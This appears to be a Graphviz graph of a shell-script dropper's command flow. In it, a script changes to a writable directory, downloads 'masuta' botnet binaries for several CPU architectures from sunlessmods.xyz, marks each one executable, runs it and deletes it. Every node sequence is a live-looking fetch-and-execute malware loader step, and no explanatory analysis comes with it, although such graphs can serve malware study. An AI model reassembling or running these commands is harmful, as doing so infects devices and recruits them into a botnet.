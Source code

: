 digraph {
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 10 [label="||,"];
10 [label="wget http://sunlessmods.xyz/bins/masuta.mips -O a "];
10 -> 12 [label=";,"];
12 [label="chmod +x a "];
12 -> 14 [label=";,"];
14 [label="./a ssh "];
14 -> 16 [label=";,"];
16 [label="rm -rf a "];
16 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 28 [label="||,"];
28 [label="wget http://sunlessmods.xyz/bins/masuta.x86 -O b "];
28 -> 30 [label=";,"];
30 [label="chmod +x b "];
30 -> 32 [label=";,"];
32 [label="./b ssh "];
32 -> 34 [label=";,"];
34 [label="rm -rf b "];
34 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 46 [label="||,"];
46 [label="wget http://sunlessmods.xyz/bins/masuta.ppc -O c "];
46 -> 48 [label=";,"];
48 [label="chmod +x c "];
48 -> 50 [label=";,"];
50 [label="./c ssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf c "];
52 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 64 [label="||,"];
64 [label="wget http://sunlessmods.xyz/bins/masuta.sh4 -O d "];
64 -> 66 [label=";,"];
66 [label="chmod +x d "];
66 -> 68 [label=";,"];
68 [label="./d ssh "];
68 -> 70 [label=";,"];
70 [label="rm -rf d "];
70 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 82 [label="||,"];
82 [label="wget http://sunlessmods.xyz/bins/masuta.arm -O e "];
82 -> 84 [label=";,"];
84 [label="chmod +x e "];
84 -> 86 [label=";,"];
86 [label="./e ssh "];
86 -> 88 [label=";,"];
88 [label="rm -rf e "];
88 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 100 [label="||,"];
100 [label="wget http://sunlessmods.xyz/bins/masuta.arm6 -O f "];
100 -> 102 [label=";,"];
102 [label="chmod +x f "];
102 -> 104 [label=";,"];
104 [label="./f ssh "];
104 -> 106 [label=";,"];
106 [label="rm -rf f "];
106 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 118 [label="||,"];
118 [label="wget http://sunlessmods.xyz/bins/masuta.arm7 -O g "];
118 -> 120 [label=";,"];
120 [label="chmod +x g "];
120 -> 122 [label=";,"];
122 [label="./g ssh "];
122 -> 124 [label=";,"];
124 [label="rm -rf g "];
124 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 136 [label="||,"];
136 [label="wget http://sunlessmods.xyz/bins/masuta.mpsl -O h "];
136 -> 138 [label=";,"];
138 [label="chmod +x h "];
138 -> 140 [label=";,"];
140 [label="./h ssh "];
140 -> 142 [label=";,"];
142 [label="rm -rf h "];
142 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 154 [label="||,"];
154 [label="wget http://sunlessmods.xyz/bins/masuta.sh4 -O i "];
154 -> 156 [label=";,"];
156 [label="chmod +x i "];
156 -> 158 [label=";,"];
158 [label="./i ssh "];
158 -> 159 [label=";,"];
}
